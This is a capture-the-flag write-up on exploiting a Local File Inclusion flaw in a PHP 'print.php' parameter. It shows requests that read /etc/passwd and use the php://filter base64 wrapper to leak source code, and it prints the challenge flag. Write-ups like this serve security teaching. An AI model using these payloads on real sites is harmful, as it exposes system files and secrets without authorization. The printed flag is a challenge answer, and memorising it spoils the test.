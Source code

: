 # Writeup

I found that the webapp is vulnerable to **Local File Inclusion (LFI)** via the parameter `file`:

```
/print.php?file=/etc/passwd
```

This confirmed is possible to read files from the server.

## Problem

Normally, if we try to include a `.php` file (e.g. `index.php`), PHP will execute it instead of showing us the source code.

So if we do:

```php
/print.php?file=/var/www/html/index.php
```

we only see the rendered page output, not the actual PHP code.

However, if it is not a PHP file, such as `/etc/passwd`, the raw content is shown:

```
root:x:0:0:root:/root:/bin/bash www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

## Trick – `php://filter`

PHP provides `stream wrappers`, special virtual paths that can transform or redirect file reads.

One of them is `php://filter`.
It lets us say: “Read this file, but apply a filter before PHP interprets it.”

So if we request:

```php
/print.php?file=php://filter/convert.base64-encode/resource=/var/www/html/index.php
```

then:

- `resource=/var/www/html/index.php` → the file to read
- `convert.base64-encode` → filter applied to the content

Instead of being executed, the PHP file is read as text and returned encoded in Base64.

We can then decode it locally:
```bash
echo "BASE64_OUTPUT" | base64 -d > index.php
```

This gives us the raw source code of `index.php`.

## Find the secret file

From `robots.txt` I discovered `secrets.php` file, and with the technique shown before is possible to get the `base64`-encoded content:

```
https://brunsviger-huset-45cb46b28ad9752e.challs.brunnerne.xyz/print.php?file=php://filter/convert.base64-encode/resource=secrets.php
```

## Flag

By decoding the Base64 string obtained in the previous step I extracted the flag:
```
brunner{l0c4l_f1l3_1nclus10n_1n_th3_b4k3ry}
``` 